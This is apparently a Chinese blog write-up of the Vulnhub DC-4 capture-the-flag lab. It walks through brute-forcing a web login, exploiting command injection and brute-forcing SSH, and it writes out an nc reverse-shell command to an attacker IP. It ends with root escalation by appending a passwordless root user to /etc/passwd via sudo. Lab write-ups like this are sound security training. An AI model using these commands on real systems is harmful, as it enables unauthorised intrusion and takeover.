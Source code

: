 ```yaml
---
title: Vulnhub - DC-4 の Write-Up
date: 2019-11-20 14:24:17
categories:
- WriteUPs
- Vulnhub
tags:
- Web
- DC Series
---
```

## 前言

&emsp;&emsp;[Vulnhub](https://www.vulnhub.com/)之DC系列靶机[DC-4](http://www.five86.com/downloads/DC-4.zip)的Write-up。

<!-- more -->

## Step 1

&emsp;&emsp;扫描找靶机IP+扫描靶机端口找服务老套路，这次没有设置奇怪的端口。

![](/img/DC-4/DC-4-1.png)

![](/img/DC-4/DC-4-2.png)

## Step 2

&emsp;&emsp;访问80端口的Web服务是一个简单的登录框。以为登录框会有注入漏洞啥的，首先扫了一下网站目录结构，没有任何发现。然后用nikto帮助找一下思路，还是一无所获。

![](/img/DC-4/DC-4-3.png)

&emsp;&emsp;难道是SQL注入？尝试了万能密码，手动注入，还用SQLMAP跑了一下，果然全是空。

![](/img/DC-4/DC-4-4.png)

## Step 3

&emsp;&emsp;行吧，只能上最笨也是最直接的方法了，密码爆破。根据Web界面的提示，说明后台是admin用户，那就简单了。只需要爆破admin用户的密码即可，BurpSuite跑的有点慢，所以用hydra搞定了。

![](/img/DC-4/DC-4-5.png)

&emsp;&emsp;登录进系统发现可以执行命令，刚开始以为做了防护，提交的仅仅是编号。结果使用BurpSuite抓包后发现还是直接提交命令。修改命令，回显可以成功执行。

![](/img/DC-4/DC-4-6.png)

![](/img/DC-4/DC-4-7.png)

## Step 4

&emsp;&emsp;使用`nc -e /bin/bash 172.16.12.129 4444`反弹shell到Kali上。

![](/img/DC-4/DC-4-8.png)

&emsp;&emsp;反弹回来的是一个非交互式的shell，通过`python -c "import pty; pty.spawn('/bin/sh')"`得到交互式shell。在/home/jim/backups/文件夹下有个old-passwords.bak文件，里面是一些密码。

![](/img/DC-4/DC-4-9.png)

## Step 5

&emsp;&emsp;利用上一步得到的密码文件爆破ssh端口。

![](/img/DC-4/DC-4-10.png)

## Step 6

&emsp;&emsp;ssh登录靶机之后，在/var/mail文件夹下找到一封邮件，邮件中有Charles账户的密码。

![](/img/DC-4/DC-4-11.png)

&emsp;&emsp;利用该密码可ssh登录Charles账户。

## Step 7

&emsp;&emsp;登录Charles账户后发现可以用sudo命令执行teehee命令，查看teehee命令用法。

![](/img/DC-4/DC-4-12.png)

&emsp;&emsp;利用teehee命令向/etc/passwd中添加一个和root权限一样的无密码用户，这样就可以切换到root用户，在根目录下找到flag。

![](/img/DC-4/DC-4-13.png)